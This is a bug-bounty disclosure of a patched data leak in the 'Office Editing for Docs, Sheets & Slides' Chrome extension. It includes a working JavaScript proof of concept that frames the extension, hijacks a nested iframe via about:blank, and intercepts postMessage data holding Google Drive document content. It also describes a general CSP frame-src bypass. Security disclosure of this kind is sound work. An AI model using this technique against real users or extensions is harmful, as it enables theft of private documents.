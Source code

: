 ```yaml
---
title: Office Editing for Docs, Sheets & Slides leak (Awarded $3133.70)
---
```


**URL:** <https://chromewebstore.google.com/detail/office-editing-for-docs-s/gbkeegbaiigmenfmjfclcdgdpimamgkj>

**PoC video:** <https://youtu.be/r0ajiPGLh0M>

### Details

- **Replace `msofficeDocId` with the doc ID of a `pptx`/`docx` file you uploaded to google drive**
- It does not need to be shared with anyone.
- 3rd party cookies are required to be enabled however with browser heuristics this can be automatic for example it gets allowed if you open and interact with a popup on Chrome.

```js
let msofficeDocId = '1DuGHZhNFjJFCtOXVkA91t5o92Y3BRJ1u';

setInterval(() => {
  if (window.f) document.body.removeChild(f);
  f = document.createElement('iframe');
  f.width = 500;
  f.height = 500;
  f.src =
    'chrome-extension://gbkeegbaiigmenfmjfclcdgdpimamgkj/views/app.html?state=%7B"ids":%5B"' +
    msofficeDocId +
    '"%5D,"action":"open","resourceKeys":%7B%7D%7D';

  document.body.appendChild(f);

  let loop = setInterval(() => {
    // Wait for iframes to load
    if (f.contentWindow.length !== 2) return;
    clearInterval(loop);

    setTimeout(() => {
      f.contentWindow[0].location = 'about:blank';
      let loop2 = setInterval(() => {
        try {
          // Monitor for leaks via onmessage
          f.contentWindow[0].onmessage = (e) => {
            console.log('Data leaked :) ' + JSON.stringify(e.data));
          };
          clearInterval(loop2);
        } catch {}
      }, 0);
      // Wait a bit for the sandbox to request document content
    }, 600);
  }, 0);

  // Retry ever 2 seconds
}, 2000);
```

This issue was fixed by adding `frame-ancestors 'self'` to the `extension_pages` content security policy.

### Attack scenario

Attacker websites can leak data from a user's google drive if they know the doc id.


# frame-src 'self' bypass

Because of an `about:blank` edge case it's possible to navigate a nested, nested 3rd party iframe to it and bypass the child's CSP.  
This has resulted in leaking data due to the victim sending sensitive information to a iframe using the `*` scope that can be hijacked via good navigation timings even with the CSP.  
A GitHub issue was opened about this <https://github.com/w3c/webappsec-csp/issues/662>
